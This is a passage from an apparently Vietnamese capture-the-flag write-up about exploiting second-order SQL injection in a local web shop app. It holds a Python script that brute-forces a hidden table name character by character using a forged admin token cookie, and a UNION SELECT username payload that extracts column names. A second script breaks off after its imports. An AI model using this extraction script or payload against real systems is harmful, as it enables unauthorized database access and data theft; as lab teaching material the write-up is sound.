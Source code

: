 ==>Ta thấy nó trả về 1 giá trị - là giá trị mình vừa trigger SQLi 

==>Giờ ta chỉ cần brute-force để tìm ra table của database thôi!

```python
import requests
import string

URL = "http://127.0.0.1:5000"
admin_tok = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.F5LymIXr29umPedMOVxMbYgtktSy96AwF9dKtP9CyYw" 
CHARSET = string.ascii_lowercase + string.digits + "{}/\-_"

def search_order_history(search_text):
    endpoint = "/admin/search_order_history"
    cookies = {"token": admin_tok}
    params = {
        "category": "username",
        "search_text": search_text
    }
    response = requests.get(URL + endpoint, cookies=cookies, params=params)
    return response.text

def is_correct_table(search_text):
    response_text = search_order_history(search_text)
    if "<td>1</td>" in response_text and "<td>Laptop</td>" in response_text:
        return True
    return False

def brute_force_flag_table():
    table_name = "flag"
    while True:
        found_char = False
        for char in CHARSET:
            test_text = table_name + char + "%"
            if is_correct_table(test_text):
                table_name += char
                found_char = True
                print(f"[+] Found character: {char} | Current table name: {table_name}")
                break
        if not found_char:

            break
    return table_name

if __name__ == "__main__":
    flag_table = brute_force_flag_table()
    print(f"[+] Flag table name: {flag_table}")
```

--> Ta tìm được 1 table tên: ```flag_table_secret```    

-Tiếp theo, ta tạo 1 account để extract column trong table ```flag_table_secret``` này với username:     
```' UNION SELECT GROUP_CONCAT(name) FROM pragma_table_info('flag_table_secret') WHERE name LIKE 'f%```

payload này khi được trigger SQLi sẽ gộp tất cả các cột của table ```flag_table_secret``` vào username, sau đó ta thực hiện brute-force bằng cách search như trên:    

![alt text](image/image.png)

```python
import requests
import string

URL = "http://127.0.0.1:5000"
```